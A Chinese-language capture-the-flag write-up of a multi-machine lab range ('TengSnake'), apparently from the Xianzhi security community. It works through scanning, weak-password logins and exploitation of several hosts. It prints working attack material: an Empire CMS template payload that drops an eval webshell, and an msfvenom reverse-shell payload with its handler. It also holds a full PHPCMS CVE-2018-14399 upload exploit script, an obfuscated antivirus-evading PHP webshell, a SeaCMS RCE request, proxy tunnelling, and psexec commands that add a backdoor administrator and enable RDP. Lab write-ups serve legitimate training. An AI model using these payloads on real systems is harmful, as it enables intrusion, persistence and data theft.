# cyberstrikelab—TengSnake-先知社区

> **来源**: https://xz.aliyun.com/news/17016  
> **文章ID**: 17016

---

# cyberstrikelab—TengSnake

本文用的免杀项目:CS用掩日，不想做免杀直接用Vshell、webshell用XG拟态或者弱鸡Webshell免杀。

连接openvpn跳转到172.20.55.32打开是空白的，172.20.50段全端口扫一下

```
C:\Users\Anonymous\Desktop\渗透\fscan\fscanplus>fscanPlus_amd64.exe -h 172.20.55.32/24 -p 1-65535

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
(icmp) Target 172.20.55.32    is alive
(icmp) Target 172.20.55.33    is alive
(icmp) Target 172.20.55.34    is alive
(icmp) Target 172.20.55.233   is alive
[*] Icmp alive hosts len is: 4
172.20.55.233:25 open
172.20.55.32:25 open
172.20.55.34:25 open
172.20.55.33:25 open
172.20.55.233:110 open
172.20.55.34:110 open
172.20.55.33:110 open
172.20.55.32:110 open
172.20.55.32:22 open
172.20.55.233:22 open
172.20.55.32:80 open
172.20.55.34:80 open
172.20.55.34:135 open
172.20.55.33:139 open
172.20.55.33:135 open
172.20.55.34:139 open
172.20.55.34:445 open
172.20.55.33:445 open
172.20.55.33:3306 open
172.20.55.34:3306 open
172.20.55.34:5985 open
172.20.55.33:5985 open
172.20.55.233:8080 open
172.20.55.233:11333 open
172.20.55.32:24234 open
172.20.55.34:47001 open
172.20.55.33:47001 open
172.20.55.33:49664 open
172.20.55.34:49664 open
172.20.55.34:49665 open
172.20.55.33:49665 open
172.20.55.33:49666 open
172.20.55.34:49666 open
172.20.55.33:49667 open
172.20.55.34:49667 open
172.20.55.34:49668 open
172.20.55.33:49668 open
172.20.55.33:49669 open
172.20.55.34:49669 open
172.20.55.34:49670 open
172.20.55.33:49670 open
[*] alive ports len is: 41
start vulscan
[*] WebTitle http://172.20.55.32       code:200 len:0      title:None
[*] NetInfo
[*]172.20.55.33
   [->]WIN-28R3BVKUHF4
   [->]172.20.55.33
[*] NetInfo
[*]172.20.55.34
   [->]WIN-1H68P9MF87N
   [->]172.20.55.34
   [->]10.10.10.12
[*] WebTitle http://172.20.55.233:11333 code:404 len:19     title:None
[*] WebTitle http://172.20.55.33:47001 code:404 len:315    title:Not Found
[*] WebTitle http://172.20.55.33:5985  code:404 len:315    title:Not Found
[*] WebTitle https://172.20.55.233:8080 code:404 len:19     title:None
[*] WebTitle http://172.20.55.34:5985  code:404 len:315    title:Not Found
[*] WebTitle http://172.20.55.34:47001 code:404 len:315    title:Not Found
[*] WebTitle http://172.20.55.32:24234 code:200 len:6869   title:小皮面板
[*] NetBios 172.20.55.33    WIN-28R3BVKUHF4      Windows Server 2016 Datacenter 14393
[*] NetBios 172.20.55.34    WIN-1H68P9MF87N      Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.20.55.34       code:200 len:9657   title:PHPCMS演示站
[+] InfoScan http://172.20.55.34       [CMS]
已完成 39/41 [-] ssh 172.20.55.233:22 root P@ssw0rd ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 39/41 [-] ssh 172.20.55.233:22 root Aa1234. ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 39/41 [-] ssh 172.20.55.233:22 admin 111111 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 39/41 [-] ssh 172.20.55.233:22 admin a123456. ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 39/41 [-] ssh 172.20.55.233:22 admin 1q2w3e ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain
已完成 41/41
[*] 扫描结束,耗时: 23m3.2798765s
```

# 第一台机器

## 弱口令

先打172.20.55.32

帝国cms7.5没有找到前台getshell的洞

访问/e/admin，跳转到后台

发现验证码，猜一手cslab

然后弱口令admin::admin进后台

## 后台RCE

参考:<https://mp.weixin.qq.com/s/ocP2GJ4iF3z1mv37UoJ4xw>

我用的第二种方法

在后台模版功能处，选择管理首页模版，然后点击增加首页方案

复制下面的payload，填写到模版内容处，点击提交。

```
<?php
$aa = base64_decode(ZWNobyAnPD9waHAgZXZhbCgkX1JFUVVFU1RbaHBdKTsnPnNoZWxsLnBocA);
${(system)($aa)};
?>
//
ZWNobyAnPD9waHAgZXZhbCgkX1JFUVVFU1RbaHBdKTsnPnNoZWxsLnBocA
=>
echo '<?php eval($_REQUEST[hp]);'>shell.php
```

再点击启用此方案即可getshell，在e/admin/template/目录下生成shell.php



tmp目录下找到flag。

## 提权

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.233.2 LPORT=8888 -f elf > mshell.elf

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.16.233.2
lhost => 172.16.233.2
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > run

meterpreter > run post/multi/recon/local_exploit_suggester
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 2   exploit/linux/local/network_manager_vpnc_username_priv_esc          Yes                      The service is running, but could not be validated.
 3   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 4   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.23 is a vulnerable build.
 7   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.23 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module


run exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
```

写一个公钥ssh连接即可。

# 第二台机器

## mysql udf提权

10.20.55.33中读取到数据库配置文件，udf提权一把梭

badpotato提权到system读取flag

但是拒绝访问，发现被限制了直接删掉。



# 第三台机器

## phpcms v9.6.0任意文件上传漏洞(CVE-2018-14399)

参考:<https://blog.csdn.net/AgonYAN/article/details/125978993>

直接用Air师傅的脚本

```
import re
import requests
import random
import time

def randomstring(length):
    s = ''
    dic = "abcdefghijklmnopqrstuvwxyz"
    for i in range(int(length)):
        s += dic[random.randint(0,25)]
    return s

def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '11',
        "username": "%s"%randomstring(12),
        "password": "%s"%randomstring(12),
        "email": "%s@qq.com"%randomstring(12),
        'info[content]': '',
        'dosubmit': '1',
    }
    headers = {
        'cookie:':'PHPSESSID=t3id73sqv3dbnkhbbd0ojeh5r0; XDEBUG_SESSION=PHPSTORM'
    }
    rep = requests.post(u, data=data)
    #print rep.content

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        if shell:
            print 'shell:',shell

    tmp = time.strftime('%Y%m%d%I%M%S',time.localtime(time.time()))
    path = time.strftime('%Y',time.localtime(time.time()))+'/'+time.strftime('%m%d',time.localtime(time.time()))+'/'
    for i in range(100,999):
        filename = tmp+str(i)+'.php'
        shell = url+'uploadfile/'+path+filename
        req = requests.get(url=shell)
        if req.status_code == 200:
            print 'brute shell:',shell
            break


if __name__ == '__main__':
    poc('http://172.20.55.34/')
```

本地用python起一个80端口的http服务，放个1.txt

里面放木马，有Defender做一下免杀，使用XG拟态或者弱鸡师傅的项目都可以过。

```
<?php if ($_COOKIE['pNkIfG'] == "z8Igdk2RSHV3UAN") {
    $SlysoQ='str_';
    $QUWRfL=$SlysoQ.'replace';
    $fCsZNz=substr($QUWRfL,6);
    $zWmchr='zxcszxctzxcrzxc_zxcrzxcezxc';
    if ($_GET['VdSXoL'] !== $_GET['UNkHtm'] && @md5($_GET['VdSXoL']) === @md5($_GET['UNkHtm'])){
    $mbdisX = 'str_re';
    $zWmchr=substr_replace('zxc',$mbdisX,$zWmchr);
    }else{die();}
    $fCsZNz=$zWmchr.$fCsZNz;
    $PTEIhv = $fCsZNz("fylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7", "", "str_fylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7rfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7eplfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7acfylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7efylVHtYv0WbKr5snJ9NxiSCwMLAhzE6m2uqPQ3O8cXgZIdRjp7");
    $aqoDYB = $PTEIhv("I3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykK", "", "baI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKsI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKe64_I3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKdecoI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKdI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykKeI3QmFdY26hBXw54UD1exczguZRatHlqSOLv0CnPA9EGMW87ykK");
    $uyHEsY = $aqoDYB($PTEIhv("ncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy", "", "Y3JncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFylYXncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyRlXncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy2Z1bncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFymncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyN0ancPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFyWncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy9uncPZ3REJgMI6Uk5CQHodvf28t7BAYSax9Dpbe0rXsGKqVjhwFy"));
    $xmPspC = $aqoDYB($PTEIhv("mW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF", "", "ZXmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFZhbmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFCmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFgmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFkXmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF1BPmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFU1RbmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFJmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhFwmW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF=mW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF=mW0IaB8ElpT5OY9v61ZbDzicu27sqfXt4GALPQkVrgSUeyCRhF"));
    $YDkpLt = $aqoDYB($PTEIhv("FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9", "", "NkFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9RFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud96FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9WXZBFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9ZFrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9w==FrTHbfNhvpDSVkE7uJtoBq2YgGC31OLlPQisnXZM5cwRxA4Ud9"));
    $ltSqyD = $aqoDYB($PTEIhv("IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt", "", "JIdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt10IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygtpOIdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygtw==IdveH4ZrQEpSwa5KnMBRYOcWTqJzAGkV6hiP2F9j3bufoX1ygt"));
    @$tTkKl = $xmPspC;
    @$$tTkKl = $YDkpLt;
    @$SZcvn=$tTkKl.$$tTkKl;
    @$oBqQO=$SZcvn;
    @$$oBqQO=$ltSqyD;
    @$OdXiD=$oBqQO;
    @$yZVxm=$$oBqQO;
    @$BYhPw = $uyHEsY('$QRDve,$EDgWN','return "$QRDve"."$EDgWN";');
    @$zoJju=$BYhPw($OdXiD,$yZVxm);
    @$hAsPry = $uyHEsY("", $zoJju);
    @$hAsPry();
    } ?>
```

这个脚本要用python2允许，也可以丢给AI改成python3。

```
┌──(kali㉿penetration)-[/mnt/c/Users/Anonymous/Desktop]
└─$ python2 1.py
shell: http://172.20.55.34/uploadfile/2025/0223/20250223081526436.php
```

上传fscan扫

```
C:\Users\test$\Desktop>fscanPlus_amd64.exe -h 10.10.10.0/24 -p 1-65535

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 10.10.10.13     is alive
(icmp) Target 10.10.10.12     is alive
(icmp) Target 10.10.10.14     is alive
(icmp) Target 10.10.10.15     is alive
[*] Icmp alive hosts len is: 4
10.10.10.15:139 open
10.10.10.14:139 open
10.10.10.12:139 open
10.10.10.13:139 open
10.10.10.15:135 open
10.10.10.14:135 open
10.10.10.12:135 open
10.10.10.13:135 open
10.10.10.12:80 open
10.10.10.15:445 open
10.10.10.14:445 open
10.10.10.12:445 open
10.10.10.13:445 open
10.10.10.14:3306 open
10.10.10.12:3306 open
10.10.10.14:3389 open
10.10.10.12:3389 open
10.10.10.13:3389 open
10.10.10.15:5985 open
10.10.10.14:5985 open
10.10.10.12:5985 open
10.10.10.13:5985 open
10.10.10.13:7410 open
10.10.10.15:47001 open
10.10.10.14:47001 open
10.10.10.12:47001 open
10.10.10.13:47001 open
10.10.10.14:49153 open
10.10.10.13:49153 open
10.10.10.15:49152 open
10.10.10.14:49152 open
10.10.10.13:49152 open
10.10.10.15:49153 open
10.10.10.14:49154 open
10.10.10.13:49154 open
10.10.10.15:49154 open
10.10.10.13:49155 open
10.10.10.14:49156 open
10.10.10.13:49156 open
10.10.10.15:49155 open
10.10.10.14:49155 open
10.10.10.15:49156 open
10.10.10.15:49159 open
10.10.10.15:49158 open
10.10.10.14:49158 open
10.10.10.13:49158 open
10.10.10.14:49157 open
10.10.10.15:49157 open
10.10.10.13:49157 open
10.10.10.12:49666 open
10.10.10.12:49665 open
10.10.10.12:49664 open
10.10.10.12:49667 open
10.10.10.12:49670 open
10.10.10.12:49669 open
10.10.10.12:49668 open
[*] alive ports len is: 56
start vulscan
已完成 0/56 [-] mysql 10.10.10.12:3306 root 123456 Error 1130: Host 'WIN-1H68P9MF87N' is not allowed to connect to this MySQL server
[*] NetInfo
[*]10.10.10.12
   [->]WIN-1H68P9MF87N
   [->]172.20.55.34
   [->]10.10.10.12
[*] NetInfo
[*]10.10.10.14
   [->]WIN-I70DL7EIRV2
   [->]10.10.10.14
[*] WebTitle http://10.10.10.15:47001  code:404 len:315    title:Not Found
[*] WebTitle http://10.10.10.15:5985   code:404 len:315    title:Not Found
[*] NetInfo
[*]10.10.10.13
   [->]WIN-LN2LN9ECSKB
   [->]10.10.10.13
[*] WebTitle http://10.10.10.13:5985   code:404 len:315    title:Not Found
[*] WebTitle http://10.10.10.13:47001  code:404 len:315    title:Not Found
[*] WebTitle http://10.10.10.14:5985   code:404 len:315    title:Not Found
[*] WebTitle http://10.10.10.14:47001  code:404 len:315    title:Not Found
[+] MS17-010 10.10.10.15        (Windows Server 2012 R2 Standard 9600)
[*] WebTitle http://10.10.10.13:7410   code:200 len:10717  title:cyberstrikelab- -Power by DuomiCms
[*] WebTitle http://10.10.10.12:5985   code:404 len:315    title:Not Found
[*] WebTitle http://10.10.10.12:47001  code:404 len:315    title:Not Found
[*] NetBios 10.10.10.15     CYBERWEB             Windows Server 2012 R2 Standard 9600
[*] NetBios 10.10.10.14     WORKGROUP\WIN-I70DL7EIRV2           Windows Server 2012 R2 Standard 9600
[*] NetBios 10.10.10.13     WORKGROUP\WIN-LN2LN9ECSKB           Windows Server 2012 R2 Standard 9600
[*] WebTitle http://10.10.10.12        code:200 len:9657   title:PHPCMS演示站
[+] InfoScan http://10.10.10.12        [CMS]
[+] PocScan http://10.10.10.13:7410 poc-yaml-duomicms-sqli
[*] NetBios 10.10.10.12     WIN-1H68P9MF87N      Windows Server 2016 Datacenter 14393
[+] PocScan http://10.10.10.13:7410 poc-yaml-seacmsv645-command-exec
已完成 53/56 [-] (62/210) rdp 10.10.10.12:3389 administrator 1qaz!QAZ remote error: tls: access denied
已完成 53/56 [-] (122/210) rdp 10.10.10.12:3389 admin Aa1234 remote error: tls: access denied
已完成 53/56 [-] (182/210) rdp 10.10.10.12:3389 guest 000000 remote error: tls: access denied
已完成 53/56 [-] (187/210) rdp 10.10.10.14:3389 guest abc123 remote error: tls: access denied
已完成 53/56 [-] (186/210) rdp 10.10.10.13:3389 guest 1qaz2wsx remote error: tls: access denied
```

发现三台机器

## Stowaway搭建第一层代理

攻击机

```
windows_admin.exe -l 172.16.233.2:9000 -s 123
```

目标机

```
windows_x64_agent.exe -c 172.16.233.2:9000 -s 123 --reconnect 8
```

# 第四台机器

## 非预期

拿之前收集的账号密码横向一波(其他靶机收集的)

```
123@cslab
cslab
cyberstrikelab
cslab@123#wi
Lmxcms@cslab!
cs1ab@2025uw
cyberstrike@2024
qwe!@#123
admin123456
Admin123
```


直接横向上去开3389写一个后门用户

```
proxychains -q python3 psexec.py Administrator@10.10.10.14

net user sss 1qaz@2WSX /add
net localgroup administrators sss /add
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

传一个Everything全局搜索，发现mysql有个flag.frm文件

当前机器存在MySQL，不知道密码，直接重置

```
net stop mysql
mysqld --console--skip-grant-tables --shared-memory
mysql -u root -p
```

免密登录MySQL，存在Duomi数据库，flag在mysql里面。

## 预期解

先打第五台机器，找到账号密码，连上来





# 第五台机器

## 海洋cms RCE

前面扫出一个Nday—poc-yaml-seacmsv645-command-exec

参考:<https://github.com/chaitin/xray/blob/master/pocs/seacmsv645-command-exec.yml>



能执行命令直接写马

```
searchtype=5&order=%7D%7Bend+if%7D%7Bif%3A1%29%24_POST%5Bfunc%5D%28%24_POST%5Bcmd%5D%29%3Bif%281%7D%7Bend+if%7D&func=system&cmd=echo PD9waHAgQGV2YWwoJF9QT1NUWydhdHRhY2snXSkgPz4=>1.txt

searchtype=5&order=%7D%7Bend+if%7D%7Bif%3A1%29%24_POST%5Bfunc%5D%28%24_POST%5Bcmd%5D%29%3Bif%281%7D%7Bend+if%7D&func=system&cmd=certutil -decode 1.txt 2.php
```



# 第六台机器

## IPC横向

根据提示小红打听到目标内网为了方便共享文件，有两台机器之间建立了某种链接，结合官方之前宣传的图片是ipc用计划任务上线。

